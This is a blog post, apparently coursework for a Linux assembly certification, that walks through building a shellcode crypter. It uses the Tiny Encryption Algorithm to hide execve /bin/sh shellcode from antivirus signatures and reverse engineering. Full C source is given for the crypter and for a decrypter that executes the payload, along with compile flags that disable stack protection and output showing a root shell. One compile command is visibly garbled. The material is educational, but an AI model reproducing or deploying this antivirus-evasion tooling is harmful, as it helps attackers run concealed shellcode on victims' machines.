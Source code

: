```yaml
---
layout: post
title:  "SLAE Assignment 7 - Custom crypter"
date:   2017-04-30
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 7:  
    
**Our Goal:**  
> *Create a custom crypter*
 - *Free to use any existing encryption schema*
 - *Can use any programming language*  
  
Hello everybody,  
  
In this last assignment we will aim at creating a shellcode crypter. The crypter program will cipher our shellcode in order to defeat any reverse-engineering analysis and to bypass fingerprint/signature based anti-virus detection.  
  
A quick search for a simple encryption algorithm leads to the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm):  
*'In cryptography, the Tiny Encryption Algorithm (TEA) is a block cipher notable for its simplicity of description and implementation, typically a few lines of code.'*  
  
![image]({{ site.url }}/public/images/slae/assignment7/image.png)  
  
If you want to read more about the Tiny Encryption Algorithm and its implementation and weaknesses nowadays, here is a [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

For this assignment we will use the [execve-stack.nasm](https://github.com/phackt/slae/tree/master/assignment7/execve-stack.nasm) shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Now let's create our C crypter [tea_crypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_crypter.c):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Let's compile and run our TEA crypter:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Now let's decrypt and execute this shellcode ([tea_decrypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_decrypter.c)):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80";	

	char buffer[512];
	char key[16] = "iloveshellcodess";
	
	strcpy(buffer, shellcode);
	decodestr(buffer, key);
	
	printf("Decrypted shellcode:\n");
	for (int i=0;i<strlen(shellcode);i++)
	{
		printf("\\x%02x", (unsigned char)(int)shellcode[i]);
	}

	// we are executing the shellcode once it has been decrypted
	printf("\nRunning shellcode...\n");
	int (*ret)() = (int(*)())buffer;
	ret();
	
	return 0;
}
```
  
Then:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tegcc -fno-stack-protector -z execstack -o tea_decrypter tea_decrypter.c && chmod u+x ./tea_decrypter && ./tea_decrypter
Decrypted shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
Running shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
Perfect, so our shellcode has been well decrypted and executed. Remember that TEA has some weaknesses, you may use another algorithm if you need strong encryption (AES, RSA, Blowfish, Twofish, ...).  Also avoid simple XOR encryption because the xoring key can be guessed thanks to a tool like [xortool](https://github.com/hellman/xortool).  
  
So it was our last assignment for the exam of the  [http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  course.  
Thanks again to Vivek and its team for their work.  
  
Hope to see you soon,
  
[Phackt](https://twitter.com/phackt_ul)
